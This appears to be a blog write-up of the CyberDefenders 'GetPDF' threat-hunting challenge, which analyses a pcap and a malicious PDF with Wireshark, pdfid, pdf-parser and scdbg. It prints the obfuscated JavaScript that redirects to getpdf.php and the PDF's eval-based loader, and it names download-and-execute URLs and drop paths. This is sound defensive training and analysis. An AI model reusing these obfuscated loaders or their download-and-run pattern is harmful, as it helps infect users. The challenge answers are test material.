 ```yaml
---
layout: post
title: GetPDF Threat Hunting writeup
categories: [CTF, Forensics, Threat-Hunting]
tags: [CTF, Malware-Analysis, Incident-Response, Blue-team]
---
```

Point: 1200

<https://cyberdefenders.org/blueteam-ctf-challenges/progress/rootware/84/>

## Category

Forensics, Threat-Hunting, Malware-Analysis

## Solution

### How many URL path(s) are involved in this incident?

```text
http.request.method == GET
```

![urls](/assets/img/blogImages/getPDF1.png)
There are altogether 6 unique URLs after analyzing the pcap file in wireshark.
Answer: 6

### What is the URL which contains the JS code?

![jsurl](/assets/img/blogImages/getPDF2.png)
So the full URL path that contains the JS code is
<http://blog.honeynet.org.my/forensic_challenge/>

### What is the URL hidden in the JS code?

After extracting the JS code and using beautifier.io to decipher the JS code, we can see that the code is constructing a URL.

```javascript
var DepanNegw = window;
var DexeTelae = -44;
DexeTelae += 45;
XayeZebah = 'nedajemac';
var GaDemee = 'e5vfqaIVblI5'.replace(/[5fqIVbI5]/g, '');
ZavevTa = 'fazemezarawaseb';
var MezRai = parseInt;
var DayahDet = 'zafezed lacet cetexet jevecakemahamaha febenep cafa fezebefe yelaxa xejarer hejefaqazedeka kebeneh petaqe zevexej jenewabahegehar jabevame bayap def vasefezetevamer nefelaba sezaxewe qajeqeme wet reyeqer magemefele xelawece denew jafelev haweqa kel vatabaser mag vejefama xeca canapevezejev benaper gezazevaja zeyaxaf wehekeh jecalava set senajaj re kameken bazafakaqewate zaralek yecele kak s hexebeka heha jeyeteg sase wayefewa tey gawewem wefaravavepayeke xedevec gavayedegeqer casehes watenanesajet jelagal payevexebe pejasep heqefagabexemew deheler vejegeca hece rafenadamenaxe jaz fex hekases pazetepajamelew cerasej nevayezabevepeke pex gey dac g dezaleza kekeqebe peyemaf sevanededa cefagey defef cexaqehe sebex galahal zadaxaran lava falamedejegase set law mefe wa mex ces nam j xaxaped gexeqageb feqeled daseze tehadeh zeheteyera xanahef wepahena xarakel gadazecaq tabexape dareq seje lejegagaxavade haf jaz cewe me cag kem fed h legefaz taw keyacah wefereweverewaze rapecame kas fagavev facez yefeley lareke seperene gav lece gahepegesafeve dez gen yeje s waz qas xap c hademax mezezah qepawehe vad zejates pe cehajeg sabebaseqeseda sekesav nebeda cagareg kec fexewel bejewagedegeqene bajesade lav pasepad baraj xecavan vedepe veranake vej heva kejajemacajada wez saj vele x qaj vad fag y qetamefe jaxa kamatare net zeheweh jeme bale cexebedeleneye dab vev kekaxex jetecajek lejekabe qalef bevegeye caxeb beleteqe r hele saxafexazat baz dehakajegeqeneke met mefepexafecebera qwertyu iop asdfghj klzxcvbnmqwer tyuiopa sdfghjklzxcvbnmq hjklzxc vbnmqwer tyu iopasdfghjklzxc vbnmqwe rtyuiopas dfghjkl zxcvbnmqwertyuio pasdfgh jklzxcvbnmqwert yuiopas dfghjk lzxcvbnm qwertyuiop asdfghj klzxcvbnmqwerty uiopasd fghjkl zxcvbnmq werty uio pasdfghjklzxcvb nmqwert yuiopasdfghjklzx cvbnmqwe rty uiopasd fghjklzx uio pasdfghjklzxcvb nmqwert uiopasdfghjklz qwertyui opasdfghjk xcr vbnmqwertyuiopar sdfghjr klzxcvr bnmqwer rtyuiopasdfghjkr lzxcvbnr mqr wertyur iopasr dfghjkr lzxcvbnmqwertyr uiopasdr fghr jklzxcr vbnmqwertr yuiopar sdfr ghjklr zxcvbnmqwertyuir opasdfr ghjr klzxcvr bnmqwertr yuiopar sr dfghjkr lzxcvbnmqwerr dfghjkr lzxcvbnmqwerr tyuiopr asdfgr hjklzxr cvbnmqwertyuior pasdfgr hjklzxcr vbnmqwr ertyur met mefepexafecebera xanahef wepahena feqeled daseze tabexape dareq zexelede l cefagey defef hademax mezezah req batekeqaheteceh zateyene c zekeqay ratevecek veheleqe k dec tec xece jefexazeqayefes cama bapevexeladet keh lanawebasegecaja qefejev qepetekene dacegas relevaj fecasece ber veyayes ba kajebed savaketegemeqe wepecer lamege tere ratavacevejezax gey dasalaje gav yepakekehe'.split(' ');
var ZeJexn = '';
var SerayYafags = String;
var KesXanavn = -50;
KesXanavn += 66;
XadHef = 78;
var BeZao = 47;
BeZao += -47;
var FeceSabejo = -46;
FeceSabejo += 48;
GebJep = 92;
var SeWajec = 'ftr9wogmBwJCW5h6aixrPRCs1ZonjHjdjKueMkD'.replace(/[t9wgBwJW56ixPRs1ZnjHjjKuMkD]/g, '');
MaqTa = 5;
GaDemee = DepanNegw[GaDemee];
SeWajec = SerayYafags[SeWajec];
for (YajMedei = BeZao; YajMedei < DayahDet.length - 1; YajMedei += FeceSabejo) ZeJexn += SeWajec(MezRai((DayahDet[YajMedei + BeZao].length - 1).toString(KesXanavn) + (DayahDet[YajMedei + DexeTelae].length - 1).toString(KesXanavn), KesXanavn));
GaDemee(ZeJexn);
```

The code is run in chrome browser console and returned an error message saying that it is actually requesting a URL which is blocked by chrome due to the request being insecure
<http://blog.honeynet.org.my/forensic_challenge/getpdf.php>

### What is the MD5 hash of the PDF file contained in the packet?

1. Export the `fcexploit.pdf` file from the http requests within wireshark.
2. Hash the file using md5 command as below.

```bash
md5 fcexploit.pdf 
```

```shell
MD5 (fcexploit.pdf) = 659cf4c6baa87b082227540047538c2a
```

### How many object(s) are contained inside the PDF file?

```bash
wget https://raw.githubusercontent.com/mlodic/pdfid/main/pdfid/pdfid.py
python pdfid.py fcexploit.pdf
```

```shell
PDFiD 0.2.7 fcexploit.pdf
 PDF Header: %PDF-1.3
 obj                   19
 endobj                18
 stream                 5
 endstream              5
 xref                   1
 trailer                1
 startxref              1
 /Page                  2
 /Encrypt               0
 /ObjStm                0
 /JS                    1
 /JavaScript            1
 /AA                    0
 /OpenAction            1
 /AcroForm              1
 /JBIG2Decode           0
 /RichMedia             0
 /Launch                0
 /EmbeddedFile          1
 /XFA                   1
 /Colors > 2^24         0
```

There are 19 objects.

### How many filtering schemes are used for the object streams?

By user pdf-parser the pdf file's streams can be analyzed

```bash
pdf-parser fcexploit.pdf  
```

```shell
obj 4 0
 Type: /Action
 Referencing: 5 0 R

  <<
    /Type /Action
    /S /JavaScript
    /JS 5 0 R
  >>


obj 5 0
 Type: 
 Referencing: 
 Contains stream

  <<
    /Length 395
    /Filter [ /FlateDecode /ASCII85Decode /LZWDecode /RunLengthDecode ]
  >>
```

In the output above object 4 which contains javascript code is referencing object 5 which filters the contents of object 4. From the `/Filter` we can see that there are 4 encoding functions.

### What is the number of the 'object stream' that might contain malicious JS code?

```javascript
var SSS = null;
var SS = "ev";
var $S = "";
$5 = "in";
app.doc.syncAnnotScan();
S$ = "ti";
if (app.plugIns.length != 0) {
    var $$ = 0;
    S$ += "tl";
    $5 += "fo";
    ____SSS = app.doc.getAnnots({nPage: 0});
    S$ += "e";
    $S = this.info.title;
}
var S5 = "";
if (app.plugIns.length > 3) {
    SS += "a";
    var arr = $S.split(/U_155bf62c9aU_7917ab39/);
    for (var $ = 1; $ < arr.length; $++) {
        S5 += String.fromCharCode("0x" + arr[$]);
    }
    SS += "l";
}
if (app.plugIns.length >= 2) {
    app[SS](S5);
}
```

The above stream contains malicious JS code.
Answer: 5

### Analyzing the PDF file. What 'object-streams' contain the JS code responsible for executing the shellcodes? The JS code is divided into two streams. Format: two numbers separated with ','. Put the numbers in ascending order

Analyze the PDF file in PDFStreamDumper. Debug the JS script in object 5. The JS gets the content of the 10th object stream and removes the "U_155bf62c9aU_7917ab39" string from it.

Scan the resulted JS code from the previous step. The JS gets the content of the 9th object stream and removes the "X_17844743X_170987743" string from it, then gets the content of the 7th stream and removes the "89af50d" string, then concatenate the 2 JS code. The answer is 7,9

### The JS code responsible for executing the exploit contains shellcodes that drop malicious executable files. What is the full path of malicious executable files after being dropped by the malware on the victim machine?

The JS code contains 4 different versions of the same shellcode.

Using scdbg to emulate any one of the shellcodes. You will find that the shellcode calls URLDownloadToFileA API. The answer is c:\WINDOWS\system32\a.exe

### The PDF file contains another exploit related to CVE-2010-0188. What is the URL of the malicious executable that the shellcode associated with this exploit drop?

Using `pdf-parser -a fcexploit.pdf` command. You will get that the 11th object stream contains an Embedded object.

Analyze the PDF in PDFStreamDumper and check the 11th object stream in the PDF file. Extract the content of the object stream.

Use file utility to check the file type. The file is Zlib compressed. Use PDFStreamDumper -> Tools -> Zlib Decompress_file to get the actual content of the exploit

Decode the base64 string you will get the shellcode. Using scdbg to emulate the shellcode. The URL is <http://blog.honeynet.org.my/forensic_challenge/the_real_malware.exe>

### How many CVEs are included in the PDF file?

Answer: 5
The JS code extracted from the 7th and 9th streams contains 4 CVEs, and the 11th stream has the 5th one.
